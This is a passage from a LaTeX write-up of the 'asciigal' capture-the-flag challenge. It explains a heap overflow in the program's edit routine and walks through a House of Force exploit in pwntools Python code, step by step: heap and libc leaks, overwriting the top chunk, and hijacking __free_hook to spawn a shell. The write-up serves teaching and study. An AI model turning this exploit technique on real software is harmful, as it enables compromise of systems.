The last but not least functionality, allow us to edit a previously allocated article. The code \ref{lst:edit-article-source} looks suspicious. At line \ref{line:get-read-size} it is asked to insert the size of the article's payload, but the article already exists. Then, at line \ref{line:heap-overflow} this size is used to determine the number of bytes to be written in the chunk. This means that we can select an arbitrary size and no check is performed on memory bounds. Here we are, this is what is called \emph{heap overflow}!\newline
\begin{minipage}{\textwidth}
\centering
\lstset{style=cstyle}
\begin{lstlisting}[caption={Edit\_article routine of asciigal source code.},captionpos=b,label={lst:edit-article-source}]
    void edit_art(int index)
	{
		int size;
        /*Check whether or not it is a valid article*/
		if (pics[index] == (article *)0x0) {
			puts("This space is blank.");
		}
		else {
			printf("name> ");
			get_name(pics[index]->art_name,100);
			printf("art sz> ");
			size = get_int();~\label{line:get-read-size}~
			/* Heap Overflow */
			read(0,pics[index]->art_payload,(long)size);~\label{line:heap-overflow}~
		}
		return;
	}
\end{lstlisting}
\end{minipage}
\subsection{Plan the Exploit}
A considerable amount of information has been gathered about the binary. \emph{House of Force} seems to be a viable attack strategy. We have a \texttt{malloc} of arbitrary size and a \emph{heap overflow}. There are still some questions to be answered:
\begin{itemize}
    \item How to get memory leaks? We can try to get a heap leak by creating a payload chunk of the same size of the one used for the article structure. Whereas, a libc leak could be obtained by using an \emph{unsorted bin attack}.
    \item What to be written and where? A first option could be to overwrite the \texttt{.got}, replacing the entry of a useless symbol with the one of the \texttt{system}\footnote{It is a libc function which calls the execve syscall, hence, it can be used to spawn a shell.} function. Generally speaking, when dealing with \emph{House of Force} is not the cleanest solution. Memory locations near the target one, would be overwritten by chunks metadata. This is likely to cause an unexpected abort, since the \texttt{.got} may be messed up. Another option is to exploit function hooks. Several libc functions presents a custom hook, due to debugging purposes. This hook contains the address of a procedure to be called upon calling the associated function. By default this address is set to 0x0, hence, nothing happens. If we write in the \texttt{\_\_free\_hook} entry the address of the \texttt{system} function and then we free a chunk that starts with \textit{``/bin/sh''}, we get a shell. 
\end{itemize}
The latter solution looks promising. We can write down an exploitation plan:
\begin{enumerate}
    \item Leak heap addresses
    \item Leak libc addresses
    \item Prepare House of Force
    \item Overwrite the \_\_free\_hook entry with the system address
\end{enumerate}
\subsection{Execute the Attack}
It is the time to get our hands dirty. For the exploit, a python library called \texttt{pwntools}\footnote{https://docs.pwntools.com/en/stable/} has been used. Before writing the code, it is helpful to define some utility routines to automatize the interaction with the process. To this end, a python function for each utility mentioned in the section \ref{functionalities} is written.
\subsubsection{Leak heap addresses}
The snippet of the script is shown in code \ref{lst:leak-heap-addresses}. First of all two fast chunks, with the size of the chunk which contains the article structure are created, line \ref{line:p-allocate-fast-chunk}. Then, one of them is freed, line \ref{line:p-delete-fast-chunk}. This will create the following structure in the tcache:\newline
\leftline{\texttt{tcache[0x30 bytes]: head -> Article\_1 -> Payload\_1 -> tail}}\newline
When a new article is allocated, line \ref{line:p-reallocate-fast-chunk}, the payload chunk is the one previously used to hold the article structure, and vice versa. In other words, by printing the payload of the new allocated chunk we are able to print the article structure content. The point is that it contains pointer to chunks, that is, a heap leak is found.
Finally, from line \ref{line:p-parse-heap-leak} the byte-stream leak is parsed and used to compute the base address of the heap and the top chunk one, code \ref{lst:leak-heap-addresses}.\newline
\begin{minipage}{\textwidth}
\centering
\lstset{style=pythonstyle}
\begin{lstlisting}[caption={Leaking heap addresses with python script.},captionpos=b,label={lst:leak-heap-addresses}]
    # Leaking the heap
    print("[1]-Leaking heap addresses...")
    new_article("A"*4, 32, "A"*4)~\label{line:p-allocate-fast-chunk}~
    new_article("B"*4, 32, "B"*4)
    
    delete_article(1)~\label{line:p-delete-fast-chunk}~
    new_article("A"*4, 32, "A"*4)~\label{line:p-reallocate-fast-chunk}~
    print_article(1)
    
    heap_leak = u64(p.recv(42)[34:])~\label{line:p-parse-heap-leak}~
    heap_base = heap_leak + heap_offset
    top_chunk = heap_base + top_chunk_offset
    print("\t\tHeap base address: ", hex(heap_base))
    print("\t\tTop chunk address: ", hex(top_chunk))
\end{lstlisting}
\end{minipage}
\begin{minipage}{\textwidth}
\centering
\lstset{style=consolestyle}
\begin{lstlisting}[caption={Leaking heap addresses.}, 
captionpos=b,label={lst:leak-heap-addr}]
xman@ubuntu:/$ ./x.py
...
[+] Starting local process './asciigal': pid 2686
[1]-Leaking heap addresses...
        Heap base address:  0x555555576760
        Top chunk address:  0x555555577658
\end{lstlisting}
\end{minipage}

\subsubsection{Leak libc addresses}
This time we will perform an \emph{unsorted bins attack} to leak libc addresses, code \ref{lst:leak-libc-addresses}.\newline
\begin{minipage}{\textwidth}
\centering
\lstset{style=pythonstyle}
\begin{lstlisting}[caption={Leaking libc addresses with python script.},captionpos=b,label={lst:leak-libc-addresses}]
    # Leaking libc with unsorted bin attack
    print("[2]-Leaking libc addresses...")
    for i in range(10):~\label{line:p-allocate-small-chunks}~
        new_article("abcdef%d" % i, 0x150, "%d" % i)
        time.sleep(0.05)
    
    for i in range(1, 10):~\label{line:p-deallocate-small-chunks}~
        delete_article(i)
        time.sleep(0.05)
    
    for i in range(10):~\label{line:p-reallocate-small-chunks}~
        new_article("qwert%d" % (i), 0x150, "")
        time.sleep(0.05)
    
    print_article(8)
    
    libc_leak = u64(p.recv(35)[28:]+b"\x00")
    # Setting the base address of libc with the leaked one
    libc.address = libc_leak - libc_offset
    print("\t\tLibc base address: ", hex(libc.address))
    print("\t\tFree_hook address:", hex(libc.symbols['__free_hook']))
\end{lstlisting}
\end{minipage}
Before reaching the unsorted bin, we need to fill the tcache. It has 7 entries, then we need at least two elements in the unsorted bin. To this end we allocate 10 articles\footnote{Actually one article is already there, so we allocate only 9 article, wheres an additional allocation request is performed due to process synchronization purposes.}, line \ref{line:p-allocate-small-chunks}. Then they are deallocated, line \ref{line:p-deallocate-small-chunks}.At this point, heap structures look like this: \clearpage
\noindent
\texttt{tcache[0x160 bytes]:\newline head -> P\_7 -> P\_6 -> P\_5 -> P\_4 -> P\_3 -> P\_2 -> P\_1 -> tail}\newline\newline
\noindent\texttt{unsorted\_bins: head -> P\_8 -> P\_9 -> tail}
\newline\newline
\noindent
The unsorted bin is a double linked list that follows a \textbf{FIFO} policy, hence, in the \texttt{bk} field of \texttt{P\_8} we can find a pointer to the \texttt{main\_arena}, located within the \texttt{.data} section of libc. This means that, reallocating these articles and then printing the content of \texttt{P\_8} we can leak a libc address, from line \ref{line:p-reallocate-small-chunks} on. Finally, as done for the leak of the heap, we parse the output and we compute useful addresses, code \ref{lst:leak-libc-addr}.\newline
\begin{minipage}{\textwidth}
\centering
\lstset{style=consolestyle}
\begin{lstlisting}[caption={Leaking libc addresses.}, 
captionpos=b,label={lst:leak-libc-addr}]
xman@ubuntu:/$ ./x.py
...
[2]-Leaking libc addresses...
        Libc base address:  0x7ffff79e2000
        Free_hook address: 0x7ffff7dcf8e8
\end{lstlisting}
\end{minipage}
\subsubsection{Prepare House of Force}
This is the crucial part, code \ref{lst:house-of-force}. To start, we evaluate the \texttt{malloc\_size} as shown in section \ref{house-of-force}. Then we prepare a payload which is able to overwrite the \texttt{top\_chunk} size, line \ref{line:p-padding-and-payload}.\newline
\begin{minipage}{\textwidth}
\centering
\lstset{style=pythonstyle}
\begin{lstlisting}[caption={House of force setup with python script.},captionpos=b,label={lst:house-of-force}]
    # House of force
    print("[3]-Preparing house of force...")
    malloc_size = (libc.symbols['__free_hook'] - top_chunk - 0x20)~\label{line:p-malloc-size-evaluation}~
    payload = b"\x00"*0x158 + p64(0xffffffffffffffff) + b"\x00"*0x10~\label{line:p-padding-and-payload}~
    
    # Overwrite the top chunk size and set the article name to '/bin/sh\x00'
    print("[4]-Overwriting the top chunk size...")
    edit_article(7, "/bin/sh\x00", len(payload) + 0x20, payload)~\label{line:p-heap-overflow}~
    
    # To free up some space
    delete_article(1)~\label{line:p-free-space}~
    delete_article(3)
    
    # Moving the top_chunk
    new_article(b"whatever", malloc_size, b"WHATEVER")~\label{line:p-moving-top-chunk}~
\end{lstlisting}
\end{minipage}
We can finally exploit the \emph{heap overflow} vulnerability, setting also the name of the chunk to prepare the future parameter of the \texttt{system} function, line \ref{line:p-heap-overflow}. We have already allocated the maximum amount of available articles, that is 10. Before doing anything else, we have to free up some space, line \ref{line:p-free-space}.
Finally, we can move the the top chunk to the \texttt{\_\_free\_hook} location, line \ref{line:p-moving-top-chunk}.
\subsubsection{Overwrite the \_\_free\_hook entry}
What is left to be done is overwriting the \texttt{\_\_free\_hook} entry with the \texttt{system} address to hijack the control flow, code \ref{lst:hijack-control-flow}.\newline
\begin{minipage}{\textwidth}
\centering
\lstset{style=pythonstyle}
\begin{lstlisting}[caption={Control flow hijacking with python script.},captionpos=b,label={lst:hijack-control-flow}]
    # Overwrite __free_hook
    print("[5]-Overwriting __free_hook with the system address...")
    new_article("powned", 123, p64(libc.symbols['system'])*3)~\label{line:p-overwrite-free-hook}~
    
    # Hijack the control flow
    delete_article(7)~\label{line:p-hijack-control-flow}~
    time.sleep(1)
    
    print("[6]-Getting the flag:")
    p.sendline('cat flag')
    p.interactive()
\end{lstlisting}
\end{minipage}
To achieve this goal it is sufficient to allocate a new chunk of whatever size, whose payload is the \texttt{system} address, line \ref{line:p-overwrite-free-hook}. To avoid dealing with alignment purposes, we can inject several time the same address. At this point hijacking the control flow is as simple as deleting the chunk whose name is \textit{``/bin/sh''}, line \ref{line:p-hijack-control-flow}. As shown in code \ref{lst:get-the-flag}, a shell is spawn, we can finally get our flag!\newline
\begin{minipage}{\textwidth}
\centering
\lstset{style=consolestyle}
\begin{lstlisting}[caption={Getting the flag.}, 
captionpos=b,label={lst:get-the-flag}]
xman@ubuntu:/$ ./x.py
...
[3]-Preparing house of force...
[4]-Overwriting the top chunk size...
[5]-Overwriting __free_hook with the system address...
[6]-Getting the flag:
[*] Switching to interactive mode
/bin/sh was deleted
flag{wow_you_got_the_heap+power!}
$  
\end{lstlisting}
\end{minipage}
\section{Conclusions}
In conclusion, this article has been presented an overview of dynamic memory allocation, with the focus on the \emph{ptmalloc} algorithm. Discussing about its functionalities and vulnerabilities the most important trade-off in the cybersecurity field has been highlighted. \textit{``Security Vs Costs''}, not only from an economical perspective, but also in term of computational complexity and usability.  Developers tends to prioritize performances, rather than security mechanism, until it is shown that keeping such an unsafe behaviour is more costly than releasing a patch. Then a walk-through of the \emph{asciigal} challenge, analyzed a practical example of heap exploitation. In the future, some of aforementioned attack strategies could be fixed, however, new attacks will be thought in the never ending game of attack and defense.
\clearpage
\tableofcontents
\clearpage
\listoffigures
\lstlistoflistings
\end{document}